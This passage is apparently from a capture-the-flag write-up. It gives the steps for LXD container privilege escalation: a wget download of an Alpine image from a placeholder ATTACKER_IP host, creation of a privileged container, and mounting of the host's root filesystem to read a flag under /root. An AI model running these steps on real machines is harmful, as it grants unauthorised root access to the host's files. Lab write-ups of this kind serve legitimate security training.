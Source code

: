 VICTIM
```
cd ~
wget http://ATTACKER_IP:8000/alphine_file_with_i686_in_name.tar.gz
```

**VICTIM

```
# import the image

# It's important doing this from YOUR HOME directory on the victim machine, or it might fail.
lxc image import ./alpine*.tar.gz --alias myimage 

# before running the image, start and configure the lxd storage pool as default 
# default [enter] to all of them should do the job ; rename whatever needs renamed if default already exists
lxd init

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh

cd /mnt/root
```

- The last flag is in `root/email_backup/email_2`.

